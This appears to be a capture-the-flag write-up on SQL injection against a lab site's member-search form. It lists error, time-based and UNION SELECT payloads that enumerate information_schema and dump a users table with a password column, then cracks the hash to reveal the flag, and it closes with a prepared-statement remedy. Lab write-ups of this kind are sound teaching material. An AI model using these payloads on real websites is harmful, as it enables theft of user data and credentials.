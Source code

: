 # SQL_Injection
Ahhhh the notorious SQL Injection. This attack aims to manipulate the database specifically an SQL database to expose sensitive data such as user email and password if the website does have such. Basically if an Input is used to search through the database for a specif field, table or database data, and is not hanled properly by the server. A hacker can just simply append an Instruction to value that asks for the database to give out more information than what was originally purposed.

## Example
In http://192.168.43.251/index.php?page=member, we are presented with a page that has a form input. An obvious assumpution is that since the input requires a values to search for a particular member, that value is used by the server to query the database. We can simply check this by giving a value and appending to it anything that might error, or even tell us the type of SQL database that is beign used for example.

## Commands
* ' 
* 1  AND 1 = SLEEP(2);--
* 1 UNION (SELECT 1,2 FROM dual );--
* 1 UNION (SELECT TABLE_NAME, TABLE_SCHEMA  FROM information_schema.tables);--
* 1 UNION (SELECT COLUMN_NAME, 1 FROM information_schema.columns );--

### One of these tables is users
> * Table : users
> * Colunm : user_id
> * Colunm : first_name
> * Colunm : last_name
> * Colunm : town
> * Colunm : country
> * Colunm : planet
> * Colunm : Commentaire
> * Colunm : countersign

* And through a number of these commands we are able to retrieve out flag   

### Retrive flag
* 1 UNION (SELECT user_id, first_name FROM users);--
* 1 UNION (SELECT last_name, town FROM users);--
* 1 UNION (SELECT country, planet FROM users);--
* 1 UNION (SELECT Commentaire, countersign FROM users);--
* instruction: Decrypt this password -> then lower all the char. Sh256 on it and it's good !   
* hash : 5ff9d0165b4f92b14994e5c685cdce28

* flag: 5ff9d0165b4f92b14994e5c685cdce28 -md5> fortytwo -sha256> 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5 

## Remedy
* Now all of this  can be prevented by using prepared statements. Prepared statement will tell that database to look at the input as nothing else but just that, an input.

## Resources
* https://www.youtube.com/watch?v=ciNHn38EyRc